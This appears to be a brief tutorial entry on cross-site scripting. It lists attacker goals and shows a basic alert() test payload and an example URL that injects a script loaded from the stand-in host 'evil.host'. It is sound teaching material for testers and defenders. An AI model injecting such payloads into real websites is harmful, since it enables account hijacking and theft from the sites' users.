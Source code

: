 # Cross-site scripting

XSS allows attackers to inject malicious scripts into a webpage. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages. Using XSS, attackers can achieve the following:

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Basic technique

Put this in a form input field and see if it pops an alert box:

```text
<script>alert("hello");</script>
```

This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database \(e.g. as a comment on a discussion board\).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src=”http://evil.host/evil.js”></script>
```

## Further reading

* [XSS payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
* [5 practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [Using Burp Scanner to find XSS issues](https://support.portswigger.net/customer/portal/articles/1965737-using-burp-scanner-to-find-cross-site-scripting-xss-issues)

